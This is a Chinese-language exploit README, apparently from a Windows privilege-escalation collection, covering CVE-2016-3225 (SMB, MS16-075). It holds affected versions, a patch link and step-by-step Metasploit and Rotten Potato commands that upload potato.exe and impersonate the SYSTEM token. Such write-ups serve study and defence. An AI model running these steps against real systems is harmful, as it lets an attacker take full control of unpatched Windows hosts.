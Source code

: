 ### CVE-2016-3225

#### 描述

Windows SMB 服务器特权提升漏洞（CVE漏洞编号：CVE-2016-3225）当攻击者转发适用于在同一计算机上运行的其他服务的身份验证请求时，Microsoft 服务器消息块 (SMB) 中存在特权提升漏洞，成功利用此漏洞的攻击者可以使用提升的特权执行任意代码。若要利用此漏洞，攻击者首先必须登录系统。然后，攻击者可以运行一个为利用此漏洞而经特殊设计的应用程序，从而控制受影响的系统。

#### 影响版本

| Product             | Version | Update | Edition | Tested             |
| ------------------- | ------- | ------ | ------- | ------------------ |
| Windows 10          | -       |        |         |                    |
| Windows 10          | 1511    |        |         |                    |
| Windows 7           |         | SP1    |         | :heavy_check_mark: |
| Windows 8.1         |         |        |         |                    |
| Windows Rt 8.1      |         |        |         |                    |
| Windows Server 2008 |         | SP2    |         |                    |
| Windows Server 2008 | R2      | SP1    |         |                    |
| Windows Server 2012 | -       |        |         |                    |
| Windows Server 2012 | R2      |        |         |                    |
| Windows Vista       |         | SP2    |         |                    |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2016-3225
```

#### 利用方式

> 注意：需要用管理员权限运行MSF生成的文件才能提权到system权限

windows 7 sp1 x64测试中，使用`whoami /priv`命令查看发现并无**SeImpersonatePrivilege**特权烂土豆提权需要该特权为开启状态，所以测试的时候直接用管理员权限运行

![image-20200819140202765](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-3225_win7_x64.png?raw=true)

利用MSF+烂土豆提权，首先我们假定机器已经上线，通过msf中自带的插件来识别当前系统中可以利用的EXP来进行提权

```
use multi/recon/local_exploit_suggester
set session 1 #当前机器的session
run
```

如果没有用管理员权限运行MSF生成的exe的话，脚本检测是这样的

![image-20200819112155945](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-3225_win7_x64_msf_1.png?raw=true)

如果使用管理员权限运行的话检测是这样的，可以看到比上面多了个ms16_075

![image-20200819140819782](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-3225_win7_x64_msf_2.png?raw=true)

编译好烂土豆的文件

```
potato.exe
```

接着上传编译好的文件

```
upload /Users/ascotbe/Downloads/Potato.exe C:/Users/ascotbe #上传potato.exe到目标机器中的C:\Users\ascotbe目录下,msf无法识别\符号所以必须使用/符号
```

然后执行如下命令即可提权成功了

```
use incognito #加载incoginto功能（用来盗窃目标主机的令牌或是假冒用户)
list_tokens -u #列出目标主机用户的可用令牌
execute -cH -f C:/Users/ascotbe/potato.exe #创建新的进程
list_tokens -u #列出目标主机用户的可用令牌
impersonate_token "NT AUTHORITY\SYSTEM"#假冒目标主机上的可用令牌
```

![image-20200819141240274](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-3225_win7_x64_msf_3.png?raw=true)

进入shell查看

![image-20200819141337651](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-3225_win7_x64_msf_4.png?raw=true)

> 第二种利用方式

编译方式

- VS2019（V141）X64 Release

由于普通账号没有**SeImpersonatePrivilege**特权，这边用管理员账号来演示，利用程序**potatoNG.exe**直接上GIF图

![4](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-3225_win7_x64.gif?raw=true)


